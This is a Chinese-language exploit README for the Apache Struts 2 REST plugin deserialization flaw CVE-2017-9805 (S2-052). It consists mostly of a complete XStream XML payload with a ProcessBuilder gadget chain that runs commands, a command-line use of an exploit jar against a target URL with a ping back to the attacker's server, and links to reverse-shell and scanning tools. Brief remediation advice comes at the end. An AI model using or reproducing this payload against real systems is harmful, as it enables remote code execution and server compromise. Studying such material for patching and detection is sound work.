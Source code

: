 # CVE-2017-9805 （S2-052）反弹Shell Exploit

## 影响版本
```
Struts 2.1.2 - Struts 2.3.33, Struts 2.5 - Struts 2.5.12
```

## Poc

```
Content-Type: application/xml

<map>
<entry>
<jdk.nashorn.internal.objects.NativeString> <flags>0</flags> <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data"> <dataHandler> <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource"> <is class="javax.crypto.CipherInputStream"> <cipher class="javax.crypto.NullCipher"> <initialized>false</initialized> <opmode>0</opmode> <serviceIterator class="javax.imageio.spi.FilterIterator"> <iter class="javax.imageio.spi.FilterIterator"> <iter class="java.util.Collections$EmptyIterator"/> <next class="java.lang.ProcessBuilder"> <command> <string>calc</string> </command> <redirectErrorStream>false</redirectErrorStream> </next> </iter> <filter class="javax.imageio.ImageIO$ContainsFilter"> <method> <class>java.lang.ProcessBuilder</class> <name>start</name> <parameter-types/> </method> <name>foo</name> </filter> <next class="string">foo</next> </serviceIterator> <lock/> </cipher> <input class="java.lang.ProcessBuilder$NullInputStream"/> <ibuffer></ibuffer> <done>false</done> <ostart>0</ostart> <ofinish>0</ofinish> <closed>false</closed> </is> <consumed>false</consumed> </dataSource> <transferFlavors/> </dataHandler> <dataLen>0</dataLen> </value> </jdk.nashorn.internal.objects.NativeString> <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/> </entry> <entry> <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/> <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
</entry>
</map>

Windows <command><string>calc</string></command>

Mac <command><string>/Applications/Calculator.app/Contents/MacOS/Calculator</string></command>
```

## 漏洞复现详情

https://secfree.com/article-333.html

## 利用

直接使用工具进行扫描（超级厉害，感叹别人比自己强能写出这样便利的工具，用的时候记得点赞）
https://github.com/HatBoy/Struts2-Scan

或者

```
java -jar CVE-2017-9805-Exploit.jar http://192.168.199.246:8080/struts2-rest-showcase/orders.xhtml "ping -c 2 [你所使用的服务器IP地址]"
tcpdump -i eth0 icmp (抓包icmp数据包)
```
## 反弹shell方法
![exploit](https://github.com/iBearcat/S2-052/blob/master/exploit.jpg?raw=true)

执行命令回显请https://github.com/luc10/struts-rce-cve-2017-9805

## 修复方案

1.建议尽快升级到 2.5.13版本。

2.在不使用时删除 Struts REST插件，或仅限于服务器普通页面和JSONs：

```
<constant name=”struts.action.extension” value=”xhtml,,json” />
```

3.限制服务器端扩展类型，删除XML支持。
